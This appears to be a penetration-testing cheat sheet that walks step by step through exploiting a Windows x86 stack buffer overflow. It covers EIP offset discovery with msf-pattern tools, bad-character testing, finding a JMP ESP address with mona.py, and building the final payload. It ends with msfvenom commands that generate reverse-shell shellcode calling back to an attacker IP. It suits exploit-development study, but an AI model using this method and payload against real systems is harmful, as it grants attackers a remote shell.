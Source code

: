 # Buffer Overflow

## Overflow Length

Determine the parameter length necessary to crash the application.

## Control EIP Value

Create a pattern using msf-pattern\_create to help determine the exact offset:

```
msf-pattern_create -l <bytes-number>
```

Use the generated pattern in the payload to crash the application.

Retrieve EIP value when the crash occured and use msf-pattern\_offset to get the offset:

```
msf-pattern_offset -l <bytes-number> -q <EIP-value-in-bytes>
```

Check if the calculated offset is correct by having a payload like:

```
( "A" * offset ) + ( "B" * 4 ) + ( "C" * (initial_length - offset) )
```

The application should crash with EIP value 0x42424242.

## Locate Space for Shellcode

Have a look at ESP value when the application crashed and check if it can be controlled.

Increase payload size to check if a shellcode can fit without changing the nature of the crash. Example:

```
( "A" * offset ) + ( "B" * 4 ) + ( "C" * ESP_offset ) + ( "D" * (2 * initial_length - offset - 4 - ESP_offset) )
```

When the application crashes, registers should have the following values:

* EIP: 0x42424242
* ESP: address pointing to 0x44444444

## Check for Bad Characters

Replace the previous "D"-filled part by a string containing all hex characters:

```
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

Send the payload and check memory where ESP points to.

{% hint style="info" %}
In Immunity Debugger or EDB, right-click on ESP register and select "Follow in Dump".
{% endhint %}

Determine if a value caused an issue. If so, remove it from the payload and replay the exploit until no character proved to be problematic.

## Find a Return Address

In order to execute the shellcode, find a reliable JMP ESP instruction address. The address needs to:

* Be static, not a library compiled with ASLR.
* Not contain bad characters identified previously.

{% hint style="info" %}
Alternative to JMP ESP:

PUSH ESP

RETN
{% endhint %}

Use msf-nasm\_shell to determine the opcode for the instruction we are searching for:

```
$ msf-nasm_shell
nasm > jmp esp
00000000 FFE4
```

{% hint style="info" %}
In Immunity Debugger, use mona.py to help searching for a suitable address.

In EDB, use OpcodeSearcher plugin.
{% endhint %}

List all the modules loaded in the binary and check for those compiled without ASLR. Then search the opcode within identified modules.

```
!mona modules
!mona find -s "\xff\xe4" -m "lib.dll"
```

Check if results give an address without bad characters.

Add a suitable address to the payload in reverse order. Example for 0x10111213:

```
( "A" * offset ) + ( "\x13\x12\x11\x10" ) + ( "C" * ESP_offset ) + ( "D" * (2 * initial_length - offset - 4 - ESP_offset) )
```

The application should now crash with EIP value 0x44444444.

## Generate Shellcode

### Without Exclusion of Bad Characters

```
msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f c
```

### With Exclusion of Bad Characters

```
msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f c –e x86/shikata_ga_nai -b "\x00\x..."
```

The decode process of the encoded shellcode generated by Shikata Ga Nai will modify the stack a bit. To remediate to this, the easiest is to add a small NOP sled:

```
( "A" * offset ) + ( "\x13\x12\x11\x10" ) + ( "C" * ESP_offset ) + ( "\x90" * 10 ) + shellcode
```

{% hint style="info" %}
In case of a threaded application, we can add "EXITFUNC=thread" parameter to msfvenom to avoid killing the process.
{% endhint %}
